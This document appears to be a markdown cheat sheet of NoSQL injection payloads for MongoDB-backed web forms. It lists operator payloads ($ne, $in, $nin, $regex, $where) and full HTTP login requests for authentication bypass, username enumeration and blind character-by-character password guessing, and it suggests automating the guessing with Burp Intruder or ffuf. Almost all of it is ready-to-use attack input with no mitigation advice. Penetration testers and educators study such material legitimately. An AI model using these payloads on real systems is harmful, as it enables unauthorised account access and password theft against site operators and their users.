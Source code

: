 # NoSQL Injection Cheat Sheet (MongoDB)

## Context

Most NoSQL injections exploit MongoDB-style query syntax through insecure form fields (typically login, search, filter). Since MongoDB uses JSON-like queries, attackers can tamper with parameters in GET or POST requests by injecting special query operators.

---

### 1. **\[\$ne] – Not Equal**

**Usage:** Bypass authentication by making the value not equal to the real one.

**Context:** If the backend uses something like:

```js
db.users.find({ "username": inputUser, "password": inputPass })
```

**Payload:**

```nosql
username[$ne]=admin&password[$ne]=anything
```

**Effect:** Matches all users where username ≠ admin and password ≠ anything — likely returns a valid user if no validation is done properly.

---

### 2. **\[\$eq] – Equal**

**Usage:** Used explicitly to match exact values. Not typically useful for bypassing, but can be combined with regex or for enumeration.

**Payload:**

```nosql
username[$eq]=admin&password[$eq]=admin123
```

---

### 3. **\[\$gt], \[\$lt] – Greater Than / Less Than**

**Usage:** Bypass or enumerate values based on numeric comparisons.

**Payload:**

```nosql
age[$gt]=0&age[$lt]=100
```

---

### 4. **\[\$in] – Value is in Array**

**Usage:** Check if a value matches any in a set.

**Payload:**

```nosql
username[$in][]=admin&username[$in][]=root
```

---

### 5. **\[\$nin] – Value is *not* in Array**

**Usage:** Bypass filtering by excluding values from a set.

**Payload:**

```nosql
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz
```

**Effect:** Fetches users who are not 'admin' or 'john', and whose password ≠ xyz.

---

### 6. **\[\$regex] – Regular Expression Matching**

**Usage:** Bruteforce/Enumerate string patterns, especially for passwords.

---

#### a. **Match known pattern:**

```nosql
username=admin&password[$regex]=^admin123$
```

**Meaning:** Password must be exactly "admin123".

---

#### b. **Enumerate length:**

**Payload:**

```nosql
username=admin&password[$regex]=^.{8}$
```

**Meaning:** Match any password of length 8.

---

#### c. **Character-by-character guessing (blind):**

For password length 6, testing if first letter is `a`:

```nosql
username=admin&password[$regex]=^a.....
```

Testing if first letter is `b`:

```nosql
username=admin&password[$regex]=^b.....
```

Keep iterating to bruteforce.

---

#### d. **Find exact match using regex:**

```nosql
password[$regex]=^password123$
```

---

### 7. **\[\$exists] – Field existence check**

**Payload:**

```nosql
username[$exists]=true
```

**Context:** Can be used to test which fields exist and cause logic flaws.

---

### 8. **\[\$where] – JavaScript expression (advanced/rare)**

**Payload (dangerous):**

```nosql
username[$where]=this.password.length==8
```

**Note:** Only works if backend supports `$where` (can be disabled due to security).

---

## Full Payload Examples

### Authentication Bypass (classic)

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username[$ne]=admin&password[$ne]=dummy
```

---

### Filter bypass using \$nin

```http
username[$nin][]=admin&username[$nin][]=root&password[$ne]=123
```

---

### Password length guessing

```http
username=admin&password[$regex]=^.{8}$
```

---

### Blind character guessing

```http
username=admin&password[$regex]=^a.....
```

→ Next:

```http
username=admin&password[$regex]=^b.....
```

---

### Username enumeration

```http
username[$regex]=^a.*&password[$ne]=xyz
```

---

**Tip**: Use tools like **Burp Suite Intruder**, **ffuf**, or **custom scripts** to automate character guessing and regex payload testing

---
